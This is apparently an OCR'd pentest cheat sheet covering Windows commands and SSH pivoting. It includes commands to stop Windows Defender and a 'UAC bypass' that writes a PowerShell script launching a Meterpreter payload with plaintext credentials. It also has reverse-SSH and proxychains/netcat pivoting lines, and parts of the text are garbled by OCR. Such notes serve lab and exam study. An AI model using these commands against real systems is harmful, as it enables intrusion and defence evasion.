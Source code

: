 > $ create  
> ▪ tar -cvf linux\_priv\_esc.tar.gz /root/Desktop  
> $ unzip  
> ▪ tar xvzf linux\_priv\_esc.tar.gz

kerbros auth

> $ xfreerdp /u:alice /v:10.11.1.50

## USEFUL WINDOWS COMMANDS

Find log files in directory

> $ dir /s \*log\*

Process

> $ tasklist  
> $ taskkill /F /PID pid\_number

Disable windows defender:

> $ sc stop WinDefend

UAC bypass:

> $ echo &gt; $username = "alice" &gt; run.ps1 $ echo &gt; $secpasswd = ConvertTo-SecureString "aliceishere" -AsPlainText -Force &gt;&gt; run.ps1  
> echo &gt; $mycreds = New-Object System.Management.Automation.PSCredential \(" &gt; $username", &gt; $secpasswd\) &gt;&gt; run.ps1 &gt; $ echo Start-Process veil\_meterpreter.bat -Credential \( &gt; $mycreds\) &gt;&gt; run.ps1

```text
> $ powershell -ExecutionPolicy Bypass -File run.ps1
```

## PIVOTING

Dynamic Port Forwading:

> $ SSH  
> ▪ ssh -D 9000 root@ &gt; $ip ▪ set proxychains.conf to 127.0.0.1 1080 ▪ proxy chains nc -nv 10.11.0.106 $ Reverse SSH from windows to my kali  
> ▪ systemctl start ssh.service  
> ▪putty.exe -ssh [root@10.11.0.106](mailto:root@10.11.0.106)

Local port forward:

```text
     > $  Explanation
         ▪ ssh -L 80:localhost:80 SUPERSERVER
         ▪ a connection made to the local port 80 is to be forwarded to port 80 on SUPERSERVER.

     > $  SSH
        ▪ ssh -R sourcePort:forwardToHost:onPort connectToHost
```

Remote port forward:
